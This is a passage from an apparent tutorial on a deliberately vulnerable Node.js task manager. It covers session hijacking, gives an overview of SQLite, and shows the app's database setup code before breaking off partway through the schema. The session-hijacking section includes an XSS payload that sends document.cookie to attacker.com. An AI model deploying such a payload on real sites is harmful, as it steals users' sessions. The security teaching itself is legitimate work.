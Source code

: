 ### 3. Session Hijacking Risk

**How it works**:
1. Attacker steals session cookie (via XSS or network sniffing)
2. Attacker uses cookie to impersonate user
3. Server treats attacker as legitimate user

**Example Attack**:
```javascript
// XSS payload to steal session cookie
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

---

## SQLite Database Deep Dive

### What is SQLite?

SQLite is a lightweight, file-based database that doesn't require a separate server process. It's perfect for development, small applications, and embedded systems.

### Key Characteristics

- **File-based**: Entire database is a single file
- **Serverless**: No database server required
- **Zero-configuration**: No setup needed
- **Self-contained**: Everything in one library
- **ACID compliant**: Supports transactions

---

## SQLite in the Vulnerable Task Manager

### 1. Database Connection

```javascript
const sqlite3 = require('sqlite3').verbose();
const db = new sqlite3.Database('./tasks.db');
```

**What happens**:
- Creates/opens `tasks.db` file in current directory
- If file doesn't exist, SQLite creates it automatically
- `.verbose()` enables detailed error messages

### 2. Database Schema Creation

```javascript
db.serialize(() => {
    // Create users table
    db.run(`CREATE TABLE IF NOT EXISTS users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        email TEXT,
        password TEXT
    )`);
    
    // Create tasks table
    db.run(`CREATE TABLE IF NOT EXISTS tasks (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        user_id INTEGER,
        title TEXT,
```